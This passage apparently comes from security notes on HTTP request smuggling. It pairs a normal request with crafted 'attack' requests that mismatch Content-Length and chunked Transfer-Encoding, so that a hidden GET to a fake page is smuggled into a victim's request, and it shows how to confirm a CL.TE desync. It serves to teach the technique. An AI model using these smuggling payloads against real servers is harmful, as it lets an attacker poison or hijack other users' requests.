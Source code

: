 ```HTTP
POST /profile HTTP/1.1
Host: Test.com
Content-Length: 8

u=person
```
#### Attack Request 
```HTTP
POST / HTTP/1.1
Host: Test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

84
GET /fake_page HTTP/1.1
HOST mysite.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

blah
0
```
#### Victim Request
```HTTP
GET /fake_page HTTP/1.1
HOST mysite.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

blah
0

POST /profile HTTP/1.1
Host: Test.com
Content-Length: 8

u=person
```
This causes a `GET` request on a non existent page and the victim will get a `404 error`
### Confirming  CL.TE
#### Example Normal Request 
```HTTP
POST /profile HTTP/1.1
Host: Test.com
Content-Length: 8

u=person
```
#### Attack Request
```HTTP
POST /profile HTTP/1.1
Host: Test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Transfer-Encoding: chunked

u=person
0

GET /fake_page HTTP/1.1
Host: mypage.ocom
```